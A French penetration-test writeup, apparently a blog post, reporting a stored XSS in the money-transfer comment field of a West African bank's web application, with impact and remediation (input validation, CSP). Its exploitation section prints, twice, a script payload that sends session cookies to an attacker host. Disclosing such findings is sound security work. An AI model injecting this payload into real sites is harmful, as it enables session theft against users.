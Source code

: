 ```yaml
---
title: "Exploitation d'une vulnérabilité XSS dans une application bancaire"
author: "fatoumata"
date: "2024-04-15"
tags: ["Web Security", "XSS", "Banking"]
slug: "xss-vulnerability-banking-app"
thumbnail: "https://images.unsplash.com/photo-1526374965328-7f61d4dc18c5"
---
```


# Exploitation d'une vulnérabilité XSS dans une application bancaire

## Introduction

Dans ce writeup, nous allons vous présenter comment notre équipe a découvert et exploité une vulnérabilité XSS persistante dans l'application web d'une importante banque en Afrique de l'Ouest.

## Découverte initiale

Lors d'un test de pénétration autorisé, nous avons remarqué que le champ de commentaire dans la section de transfert d'argent n'était pas correctement assaini...

## Exploitation

Nous avons utilisé la payload suivante pour démontrer la vulnérabilité:

```javascript
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>


<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

## Impact

Cette vulnérabilité aurait pu permettre à un attaquant de:
1. Voler des sessions d'utilisateurs
2. Modifier des transactions
3. Accéder à des informations personnelles

## Correction

Nous avons recommandé l'implémentation d'une validation stricte des entrées et l'utilisation de Content Security Policy (CSP) pour atténuer ce type de vulnérabilités.